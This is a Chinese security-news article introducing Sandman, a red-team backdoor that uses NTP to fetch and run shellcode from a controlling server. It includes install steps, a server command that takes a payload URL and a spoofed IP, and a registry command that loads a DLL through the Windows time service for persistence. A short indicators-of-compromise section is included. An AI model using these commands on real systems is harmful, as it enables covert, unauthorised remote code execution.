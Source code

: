 #  Sandman：一款基于NTP协议的红队后门研究工具

原创 Alpha_h4ck  [ FreeBuf ](javascript:void\(0\);)

**FreeBuf** ![]()

微信号 freebuf

功能介绍 中国网络安全行业门户

____

___发表于_

收录于合集

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091255.png)

##  

## **  关于Sandman **

  
Sandman是一款基于NTP的强大后门工具，该工具可以帮助广大研究人员在一个安全增强型网络系统中执行红队任务。  
Sandman可以充当Stager使用，该工具利用了NTP（一个用于计算机时间/日期同步协议）从预定义的服务器获取并运行任意Shell代码。  
由于NTP这个协议是很多安全防御人员往往会忽略的一个协议，因此很多网络系统中并不会针对NTP进行检测。  

##  **  功能介绍 **

> 1、允许从研究人员控制的服务器获取并执行任意Payload；  
> 2、由于网络防火墙系统中通常会允许使用NTP协议，因此可以将其用于安全增强型网络系统中；  
> 3、支持通过IP欺骗技术来模拟合法的NTP服务器；

##  **  工具安装 **

  
首先，我们需要使用下列命令将该项目源码克隆至本地：

    
          * 
    
    
    
    git clone https://github.com/Idov31/Sandman.git

### (向右滑动、查看更多)

###  ****

###  **SandmanServer**

  
我们需要在服务器端安装并配置好Python
3.9环境，然后使用项目提供的requirements.txt文件和pip3命令配置Sandman服务器所需的依赖组件：

    
          *   * 
    
    
    
    cd Sandmanpip3 install requirements.txt

###  

###  **SandmanBackdoor**

  
将项目导入到Visual Studio中，然后使用USE_SHELLCODE完成代码编译即可。  

###  **SandmanBackdoorTimeProvider**

  
首先，安装好DllExport，然后将项目导入到Visual Studio中，并使用USE_SHELLCODE完成代码编译即可。  

##  **  工具使用 **

###  

###  **SandmanServer使用**

  
在Windows或类Unix设备上运行下列命令即可：

    
          * 
    
    
    
    python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"

(向右滑动、查看更多)

  
其中，Network Adapter是需要让服务器监听的网络适配器，例如Ethernet、eth0等；Payload
Url即为托管Shellcode的URL地址，例如CobaltStrike、Meterpreter或其他Stager；对于IP to
Spoof，如果你想要执行IP地址欺骗（模拟），可以使用该选项.  

###  **SandmanBackdoor使用**

  
首先，我们需要完成SandmanBackdoor的编译。其次，由于它是一个轻量级的独立C2可执行文件，因此我们可以通过ExecuteAssembly来直接运行它。  

###  **SandmanBackdoorTimeProvider使用**

  
如需使用SandmanBackdoorTimeProvider，可以按照下列步骤操作：首先，添加下列注册表项：

    
          * 
    
    
    
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"

(向右滑动、查看更多)  
接下来，重启w32time服务：

    
          *   * 
    
    
    
    sc stop w32timesc start w32time

注意事项：确保使用的是x64选项编译工具源码。  

##  **  工具运行截图 **

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091306.png)

##  

##  **  入侵威胁指标IoC **

> 1、工具会将一个Shellcode注入到RuntimeBroker中；2、NTP通信会使用可疑的Header；3、可以使用YARA规则检测；

##  

##  **  许可证协议 **

  
本项目的开发与发布遵循BSD-2-Clause许可证协议。  

##  **  项目地址 **

  
 **Sandman** ：https://github.com/Idov31/Sandman

##  **  
**

##  **参考资料：**

>
> https://github.com/ORCx41/https://twitter.com/NotMedichttps://twitter.com/NotMedic/status/1561354598744473601https://github.com/3F/DllExport

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091307.png)  
  

精彩推荐

  
  
  
  
  
  
  
[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091308.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489554&idx=1&sn=7dc76862d96516013375f712c9bdfcf1&scene=21#wechat_redirect)[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091313.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489510&idx=1&sn=55f589464f2ffbf2817523f3282175ba&scene=21#wechat_redirect)[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091314.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489388&idx=1&sn=f0e8fed4afd1dc82ac6af789e5b13626&scene=21#wechat_redirect)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091315.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

